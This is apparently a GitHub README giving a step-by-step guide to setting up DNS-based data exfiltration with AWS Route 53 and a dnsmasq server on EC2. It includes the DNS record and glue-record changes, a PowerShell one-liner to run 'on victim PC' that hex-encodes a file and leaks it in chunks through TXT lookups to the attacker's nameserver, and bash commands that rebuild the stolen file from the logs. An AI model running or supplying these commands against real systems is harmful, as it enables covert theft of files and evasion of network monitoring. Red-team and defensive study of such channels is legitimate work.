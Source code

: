 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1acdb4fc-de86-46e1-9516-de9cc23264d9)


## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

  
## Step 4: Install dnsmasq on EC2 instance and configure it
`sudo yum install dnsmasq`  
`sudo nano /etc/dnsmasq.conf`  
  
Then input the content below into /etc/dnsmasq.conf, right at the bottom of the config file    
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or use the commands below to restart dnsmasq  
`ps -aux | grep dnsmasq`  
`sudo kill <pid of dnsmasq>`  
`sudo systemctl restart systemd-networkd.service`  
`sudo dnsmasq`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/b0cfaf2f-93c0-4967-957c-cd3269241435)
  
  
## Step 5: Go to Route 53 config, note down default SOA and NS records  
Route 53 > click Hosted zones  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/50f03726-cfaf-4c20-b2c4-b5f1186cc1ee)
  
  
## Step 6: In Route 53 config, create 2x A Record to point NS record to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/25738c09-9728-44b0-bab4-4534f07e0b0a)

  
## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  
  
  
## Step 9: Note down default glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)

  
## Step 10: Modify glue records
Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 11: Use CMD to nslookup as a test
Launch cmd prompt on victim PC then run the command below  
`nslookup -q=TXT 17April2024206pm.<yourdomain.com> ns1.<yourdomain.com>`  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1cf48904-5c60-4e33-924d-108513b1b5e4)


## Step 12: Check your DNS logs in EC2
In EC2 DNS server, run the command below and observe your nslookup query being logged.  
`sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"`  


## Step 13: Powershell command to hex encode a file, split, and do nslookup
Launch powershell prompt on victim PC then run command below.  
   
`cd <to folder holding file to exfiltrate>`  
`certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/2624b595-5ce0-423b-901b-8702de5a99c2)
  

## Step 14: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing
In EC2 DNS server, run the commands below to combine assemble hex into file.  

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > <file to exfiltrate from Step 12> && cat <file to exfiltrate from Step 12>`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/c18d73f6-f166-4f47-aaa0-dc4a479cd2b3)

  
## Troubleshooting Tips:  
  
### Step 11, nameserver issue
In Step 10, sometimes you need to specify nameserver (ns1.<yourdomain.com>) in the nslookup command, sometimes you don't. I'm unsure why that is so.  
Remove or add nameservers as needed according to what you experience.  
You'll also need to remove or add nameservers from the command in Step 12!  
  
### Step 12, clearing logs
After some tests you might want to clear your logs. Use the command below:  
`sudo nano /var/log.dnsmasq.log`  
In nano, press `Alt + T` to clear everything in the log file  
Press `Ctrl + X` to save  

### Step 14, blank file output
There may be rare occasions where your output file is blank. Troubleshoot with commands below:  
  
Check that you're "cutting" correctly from the dnsmasq log using `sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' `.  
  
Adjust "-f 6" to "-f 5" or "-f 7" to change where to cut the log. Once you get the right spot, modify cut command accordingly.
